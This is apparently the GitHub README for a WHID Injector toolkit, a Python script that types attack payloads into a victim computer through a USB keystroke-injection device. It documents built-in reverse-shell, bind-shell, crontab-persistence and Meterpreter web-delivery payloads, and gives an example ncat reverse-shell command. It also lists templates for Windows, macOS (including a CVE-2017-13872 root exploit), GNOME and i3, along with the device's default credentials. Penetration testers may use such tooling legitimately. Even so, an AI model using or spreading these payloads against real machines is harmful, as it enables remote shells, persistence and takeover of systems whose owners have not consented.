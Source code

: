 # WHID Injector Toolkit
What is it ? It's a simple script to send commands (french keyboard) from your terminal to the WHID Injector. It will automatically convert the "azerty" to "qwerty" format if you're lazy. Furthermore it has builtins payload such as reverse-shell and bind-shell.

![whid-picture](https://github.com/techanvconsulting/WHID_Toolkit/blob/master/screenshots/whid.jpg?raw=true)

**Warning** : Newest version of WHID Toolkit expect the WHID to have a firmware in the prefered language, alternatively you can force the french keyboard with the english firmware using the `--force` arguments. For more customization informations go to techanvconsulting.github.io .

Where to buy a WHID Injector ? I got mine from [Aliexpress](https://www.aliexpress.com/item/Cactus-Micro-compatible-board-plus-WIFI-chip-esp8266-for-atmega32u4/32318391529.html)

## How to start
 1. Connect to the Access Point with the SSID "**Exploit**" with a password of "**DotAgency**".   
 2. Open a web browser pointed to "**http://192.168.1.1**"   
    > The default administration username is "**admin**" and password "**hacktheplanet**".       

 3. Remember to upgrade the firmware you will find the latest version in this repository  

More info on the official Github : https://github.com/whid-injector/WHID


## How to use the script
```c
python3 WHIDInjector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt -h                 
usage: WHIDInjector.py [-h] [-v] [--host [HOST]] [--port [PORT]]
                       [--user [USER]] [--pass [PASS]] [--panel [PANEL]]
                       [--payload [PAYLOAD]]

optional arguments:
  -h, --help           show this help message and exit
  -v                   Verbosity of the output
  --host [HOST]        Host reverse-shell
  --port [PORT]        Port reverse-shell
  --user [USER]        Wifi Panel username
  --pass [PASS]        Wifi Panel password
  --panel [PANEL]      Wifi Panel password
  --payload [PAYLOAD]  Payload template
```

Targeting a Windows OS
```c
python3 WHIDInjector.py -v --host 127.0.0.1 --port 4242 --payload payloads/windows.txt
```

Send a simple reverse-shell payload
```
$ python3 WHIDInjector.py -v --host 127.0.0.1 --port 4444
     -------------------------------------------------------------
      WHID injector - You need to be connected to the Exploit AP
     -------------------------------------------------------------
                   __   °
                 <(o )___
                  ( ._> /
                   `---'                      @pentest_swissky

Enter a payload, eg: bash -c 'nohup ncat 127.0.0.1 4242 -e $SHELL &'
-------------------------------------------------------------------
>>> reverse
Payload:
Rem:Default Payload
Press:130+195
CustomDelay:1000
Print:bqsh 6c 4nohup ncqt !@&<)<)<! $$$$ 6e ]SHELL 14
CustomDelay:1000
Press:176

Sending payload to http://192.168.1.1/runlivepayload
```

## Payloads and commands
| Commands       | Description                           |
| :------------- | :-------------                        |
| bind           | initiate a bind shell on results.port |
| reverse        | initiate a reverse shell on results.host and results.port |
| crontab        | set up a crontab reverse shell on results.host and results.port |
| meterpreter [https://YOUR_SERVER_IP:4646/posh-payload] | use exploit/multi/script/web_delivery with a posh-payload    |
| send some text | send the specified text              |
| h              | help                                 |
| q              | quit                                 |

You can change the options with `SET option_name option_value`
```c
>>> set host 192.168.1.12
>>> set port 4444
```

At the moment the following templates are available, feel free to add more:

| Template | Description |
| :------------- | :------------- |
| payloads/osx_high_sierra_root.txt | CVE-2017-13872 |
| payloads/osx.txt     | execute a command with [Cmd]+[Space] |
| payloads/windows.txt | execute a command with [Windows]+[R] |
| payloads/i3.txt      | execute a command with [Windows]+[Enter] |
| payloads/gnome.txt | execute a command with [Alt]+[F2] |
| payloads/default.txt | default behavior is the gnome command |

NOTE: The i3 payload uses the [Windows] key as the default modifier, some people prefer to use [CTRL]
